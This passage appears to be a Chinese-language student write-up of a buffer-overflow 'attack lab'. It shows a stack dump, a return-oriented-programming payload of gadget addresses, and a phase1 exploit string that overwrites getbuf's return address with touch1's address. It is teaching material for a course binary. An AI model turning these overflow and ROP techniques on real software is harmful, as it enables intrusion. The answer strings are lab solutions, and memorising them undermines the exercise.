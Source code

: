```c
0x7fffffffa388: 0x22    0x1a    0x40    0x00    0x00    0x00    0x00    0x00
0x7fffffffa390: 0xed    0x19    0x40    0x00    0x00    0x00    0x00    0x00
0x7fffffffa398: 0xe2    0x19    0x40    0x00    0x00    0x00    0x00    0x00
0x7fffffffa3a0: 0x10    0x19    0x40    0x00    0x00    0x00    0x00    0x00
0x7fffffffa3a8: 0x32    0x31    0x65    0x35    0x32    0x64    0x38    0x30
0x7fffffffa3b0: 0x00    0xf4    0xf4    0xf4    0xf4    0xf4    0xf4    0xf4
0x7fffffffa3b8: 0xf4    0xf4    0xf4    0xf4    0xf4    0xf4    0xf4    0xf4
```

所以答案就是
```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
3e 1a 40 00 00 00 00 00
e2 19 40 00 00 00 00 00
bd 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
b8 19 40 00 00 00 00 00
82 1a 40 00 00 00 00 00
22 1a 40 00 00 00 00 00
ed 19 40 00 00 00 00 00
e2 19 40 00 00 00 00 00
10 19 40 00 00 00 00 00
32 31 65 35 32 64 38 30
```

## 103
### phase1

```c
0000000000401833 <getbuf>:
  401833:	48 83 ec 28          	sub    $0x28,%rsp
  401837:	48 89 e7             	mov    %rsp,%rdi
  40183a:	e8 94 02 00 00       	callq  401ad3 <Gets>
  40183f:	b8 01 00 00 00       	mov    $0x1,%eax
  401844:	48 83 c4 28          	add    $0x28,%rsp
  401848:	c3                   	retq   
```
注意到栈空间为 0x28 字节，填充40个字节垃圾信息后跟上touch1()函数首地址：0000000000401849

**答案**：
```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
49 18 40 00 00 00 00 00
```

### phase2
